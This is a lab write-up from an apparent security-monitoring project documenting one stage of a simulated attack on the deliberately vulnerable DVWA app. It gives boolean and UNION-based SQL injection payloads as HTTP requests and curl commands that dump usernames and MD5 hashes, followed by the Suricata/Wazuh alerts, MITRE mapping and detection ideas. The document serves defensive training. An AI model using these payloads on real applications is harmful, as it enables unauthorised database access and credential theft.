



# Stage 03 — SQL Injection

> **Status:** Complete — evidence attached
> **Case:** [Case 01](../../04-Investigation/Cases/case-01-web-compromise.md)
> **Investigation:** [Stage 03](../../04-Investigation/Stages/stage-03-sqli.md)
> **Evidence:** [attack](../Attack-Screenshots/) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/)

## Objective

Exploit a public-facing SQL injection flaw in the DVWA web application to verify arbitrary database query execution, bypass application logic, and extract sensitive database contents including user accounts and password hashes.

## Commands

```bash
# 1. In-browser HTTP GET request: Boolean-based SQL Injection test
# Injected parameter value: 1' OR '1'='1
GET /vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit# HTTP/1.1
Host: 192.168.56.30
Cookie: PHPSESSID=session_token; security=low

# Equivalent curl verification:
curl -s -b "PHPSESSID=session_token; security=low" \
  "http://192.168.56.30/vulnerabilities/sqli/?id=1'+OR+'1'='1&Submit=Submit"

# 2. In-browser HTTP GET request: UNION-based SQL Injection extracting user table records
# Injected parameter value: 1' UNION SELECT user, password FROM users-- -
GET /vulnerabilities/sqli/?id=1%27+UNION+SELECT+user%2C+password+FROM+users--+-&Submit=Submit# HTTP/1.1
Host: 192.168.56.30
Cookie: PHPSESSID=session_token; security=low

# Equivalent curl verification:
curl -s -b "PHPSESSID=session_token; security=low" \
  "http://192.168.56.30/vulnerabilities/sqli/?id=1'+UNION+SELECT+user,+password+FROM+users--+-&Submit=Submit"
```

## What happened

1. **Authentication and Navigation**: Utilizing the credentials acquired in Stage 02 (`admin:password`), the attacker established an authenticated web session and navigated to the SQL Injection module located at `http://192.168.56.30/vulnerabilities/sqli/`.
2. **Boolean-Based Query Manipulation**: In the `User ID` query field, the attacker injected a classic boolean tautology: `1' OR '1'='1`. Because user input was concatenated directly into the backend SQL statement without sanitization or parameterized queries (`SELECT first_name, last_name FROM users WHERE user_id = '$id'`), the `'1'='1'` clause evaluated to true for every database record. The application rendered all registered users:
   - `admin admin`
   - `Gordon Brown`
   - `Hack Me`
   - `Pablo Picasso`
   - `Bob Smith`
3. **UNION-Based Schema & Credential Exfiltration**: Having confirmed the injection vector and determined the query returned two string fields, the attacker crafted a UNION query to extract account names and corresponding authentication hashes: `1' UNION SELECT user, password FROM users-- -`. The double dash and trailing hyphen commented out the remainder of the developer's original query. The application reflected all stored accounts alongside their unsalted MD5 password hashes:
   - `admin`: `5f4dc***cf99` (redacted MD5 hash)
   - `gordonb`: `e99a1***e03` (redacted MD5 hash)
   - `1337`: `8d353***16b` (redacted MD5 hash)
   - `pablo`: `0d107***e9b7` (redacted MD5 hash)
   - `smithy`: `5f4dc***cf99` (redacted MD5 hash)

## Evidence

### Attack Screenshots


*Figure 3.1: Boolean SQL injection (1' OR '1'='1) returning all registered user profiles.*


*Figure 3.2: UNION SELECT injection extracting usernames and MD5 password hashes from the users table.*

### Alert Screenshots


*Figure 3.3: Wazuh and Suricata events recording suspicious HTTP traffic and scanner signatures in TheHive.*


*Figure 3.4: Suricata rule 100600 alert capturing ET WEB_SERVER SELECT USER SQL Injection Attempt in URI.*

## Alert observed

| Source | Rule / Signature | Rule ID | TheHive alert / Reference | Severity |
|---|---|---|---|---|
| Suricata / Wazuh | `Suricata: [200] [192.168.232.135] [/vulnerabilities/sqli/?id=1%27+UNION+SELECT+user...] [ET WEB_SERVER SELECT USER SQL Injection Attempt in URI]` | 100600 / ET 2010937 | Alert 17 (TheHive) | Medium / High (Suricata: 1) |
| Suricata / Wazuh | `Suricata: [302] [192.168.232.135] [/] [ET SCAN WhatWeb Web Application Fingerprint Scanner Default User-Agent Detected]` | Wazuh Level 3 | `3.png` | Low (Level 3) |
| DVWA / Wazuh | `DVWA: [200] [192.168.232.135] [/login.php]` | Wazuh Level 3 | `3.png` | Low (Level 3) |

## MITRE ATT&CK

| Tactic | Technique | ID |
|---|---|---|
| Initial Access | Exploit Public-Facing Application | T1190 |
| Credential Access | Credentials from Password Stores | T1555 |

## Detection opportunities

- **Suricata NIDS Signatures**: Network IDS signatures targeting SQL keywords in HTTP request parameters (`SELECT`, `UNION`, `FROM`, `OR '1'='1'`, `--`). Suricata signature `ET WEB_SERVER SELECT USER SQL Injection Attempt in URI` fired on the exact payload.
- **WAF Inspection (ModSecurity CRS)**: ModSecurity Core Rule Set (CRS 942xxx rules) designed to detect SQL injection constructs, tautologies, and database comment delimiters.
- **Web Access Log Decoders**: Wazuh rules alerting on URL-encoded SQL metacharacters (`%27`, `%23`, `--`, `UNION%20SELECT`) occurring within GET/POST parameters.
- **Application & Database Telemetry**: Enabling MySQL general query logging and database activity monitoring (DAM) to detect unexpected queries against administrative tables executed through web service accounts.

## Notes

- The target application lacked parameterized statements, allowing direct query restructuring.
- The exfiltrated MD5 password hashes were un-salted, creating an immediate opportunity for offline dictionary cracking in Stage 04.
- Suricata network signatures successfully detected the UNION query pattern and generated an alert forwarded to Wazuh and TheHive.
